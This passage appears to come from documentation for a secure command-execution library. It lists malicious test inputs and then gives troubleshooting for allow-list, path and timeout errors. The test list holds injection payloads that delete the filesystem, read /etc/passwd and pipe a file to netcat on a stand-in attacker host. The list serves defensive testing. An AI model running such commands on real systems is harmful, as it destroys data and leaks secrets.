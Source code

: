 ```python
        "../../../etc/passwd",
        "file; rm -rf /",
        "file && cat /etc/passwd",
        "file | nc attacker.com 1234"
    ]

    test_malicious_inputs(my_function, malicious_inputs)
```

## Troubleshooting

### Common Issues and Solutions

#### Issue 1: "Command not in allowed list"

```
SecureExecutionError: Executable 'xyz' is not in the allowed list
```

**Solution:**

```python
# Add executable to security context
context = SecurityContext(
    allowed_executables=['python', 'xyz']  # Add your executable
)
executor = SecureExecutor(context)
```

#### Issue 2: "Working directory outside allowed path"

```
SecureExecutionError: Working directory '/some/path' is outside allowed base path
```

**Solution:**

```python
# Either use a path within the base directory
result = executor.execute_command(cmd, cwd='./subdir')

# Or update the base path
context = SecurityContext(base_path=Path('/allowed/base'))
executor = SecureExecutor(context)
```

#### Issue 3: "Command timed out"

```
SecureExecutionError: Command timed out after 300 seconds
```

**Solution:**

```python
# Increase timeout for long-running commands
result = execute_secure_command(cmd, timeout=1800)  # 30 minutes

# Or update security context
context = SecurityContext(timeout=1800)
executor = SecureExecutor(context)
```
